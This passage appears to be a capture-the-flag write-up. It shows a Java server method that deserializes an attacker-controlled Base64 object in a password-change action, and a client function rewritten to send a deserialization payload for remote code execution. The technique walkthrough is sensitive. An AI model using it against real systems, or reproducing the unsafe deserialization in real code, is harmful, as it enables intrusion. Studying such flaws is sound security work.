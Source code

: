 The changePw action is handled in the `Commands.class` class on the server.

```java
public static String changePW(ArrayList<String> args, User user) {
    [...]
    String response = "";
    String b64User = args.get(0);
    byte[] serializedUser = Base64.getDecoder().decode(b64User.getBytes());
    ByteArrayInputStream bIn = new ByteArrayInputStream(serializedUser);
    try {
      ObjectInputStream oIn = new ObjectInputStream(bIn);
      User user1 = (User)oIn.readObject();
    } catch (Exception e) {
      [...]
    } 
    [...]
  }
```

The server reads in the serialized user and deserializes it. If we are able to control the data that is being deserialized, we can get remote code execution.

The changePw action is handled in the `Invoker.class` on the client.

```java
public String changePW(String username, String newPassword) [..] {
    [...]
    User user = new User(username, newPassword);
    ByteArrayOutputStream bOut = new ByteArrayOutputStream();
    try {
      ObjectOutputStream oOut = new ObjectOutputStream(bOut);
      oOut.writeObject(user);
    } catch (IOException e) {
      e.printStackTrace();
      return "Failure while serializing user object";
    } 
    byte[] serializedUser64 = Base64.getEncoder().encode(bOut.toByteArray());
    this.action = new ActionMessage(this.sessionID, "changePW");
    this.action.addArgument(new String(serializedUser64));
    sendAndRecv();
    if (this.response.hasError())
      return "Error: Your action caused an error on the application server!"; 
    return this.response.getContentAsString();
  }
```

The username and password is used as an argument. A new user-object is created and it is serialized. Then it is base64-encoded and transferred to the server. We control the password in this specific case and therefore can exploit the deserialization vulnerability. We just have to change the changePw function to simply pass the payload to server:

```java
public String changePW(String username, String newPassword) throws [...] {
    this.action = new ActionMessage(this.sessionID, "changePW");
    this.action.addArgument(newPassword); //Insert deserialization payload here
    sendAndRecv();
    if (this.response.hasError())
      return "Error!";
    return this.response.getContentAsString();
  }
```
